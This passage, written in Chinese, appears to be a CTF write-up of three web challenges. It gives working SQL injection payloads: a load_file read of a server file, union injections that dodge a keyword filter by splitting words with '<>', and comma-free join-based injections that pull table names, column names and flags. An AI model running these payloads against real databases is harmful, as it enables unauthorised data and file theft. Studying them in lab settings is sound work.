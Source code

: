 ```
truename=xxxx%0000&Limitword[000]=&email=123456@qq.com&provinceid=,address=(select load_file(0x2f7661722f7777772f68746d6c2f666c61672e706870)) where uid=3#
```

发现联系地址这次变成了空白，F12 得到 `flag.php` 源码从而得到 flag。

## SQL

过滤了很多关键字，绕过技巧是用 `<>` 来分割：

```sql
id=1 o<>rder by 1
```

发现 `by 4` 的时候无回显但 `by 3` 的时候有，说明共 3 列。

```sql
id=1 union se<>lect 1,2,3
```

得到回显 `2`。接下来正常注入：

```sql
id=1 union se<>lect 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
-- info, users
id=1 union se<>lect 1,group_concat(column_name),3 from information_schema.columns where table_name='info'
-- id,title,flAg_T5ZNdrm
id=1 union se<>lect 1,flAg_T5ZNdrm,3 from info
-- flag{...}
```

## SQLi

F12 发现 `login.php?id=1`，但是这里好像注入不了。

回到前页，发现页面是由 `index.php` 302 跳转来的，因此检查一下对于 `index.php` 的请求的返回头，发现了特殊字段 `page`，得到真正的登陆页面 `l0gin.php?id=1`。

这个 `id` 可以注入，但是存在逗号截断，因此需要在没有逗号的情况下注入，这里很容易想到 `join`。先 `order by` 注入，得到列数为 2。

```
id=1' order by 3%23
```

尝试一下 `join`:

```
id=1'union select * from (select 1)a join (select 2)b%23
```

发现还是正常返回 `1,flag`，因为网页上限制了只能显示一条记录，而 `id=1` 的查询是成功的，因此后面我们 `union` 的结果没有回显出来。因此只需要让 `id=3` 使得查询不到 `username` 即可。

最后正常注入：

```
id=3'union select * from (select 1)a join (select group_concat(table_name) from information_schema.tables where table_schema=database())b%23

id=3'union select * from (select 1)a join (select group_concat(column_name) from information_schema.columns where table_name='users')b%23

id=3'union select * from (select 1)a join (select flag_9c861b688330 from users)b%23
```
